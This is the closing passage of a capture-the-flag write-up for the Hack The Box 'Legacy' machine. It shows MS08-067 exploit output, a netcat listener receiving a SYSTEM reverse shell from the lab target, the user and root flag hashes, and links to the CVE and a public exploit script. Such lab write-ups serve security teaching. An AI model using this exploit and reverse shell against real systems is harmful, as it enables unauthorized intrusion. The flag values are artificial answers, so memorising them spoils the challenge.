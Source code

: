 ```bash

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

```

If we check our listener we find that we have access:

```bash
┌──(root💀dc20505)-[~/legacy]
└─# nc -nlvp 443
listening on [any] 443 ...
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1028.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
# Retrieve Flags
Again, we're NT SYSTEM/AUTHORITY and no privelege escalation is necessary. We simpyly navigate to the user and root flags.
```bash
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt
993442d258b0e0ec917cae9e695d5713
```

**Success!** With both of these flags we have completed Legacy!
{: .notice--success}

# Sources
- [NIST CVE-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250)
- [MITRE CVE-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
- [Microsoft MS08-067](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
- [Andyacer's Updated Exploit](https://github.com/andyacer/ms08_067/blob/master/ms08_067_2018.py)
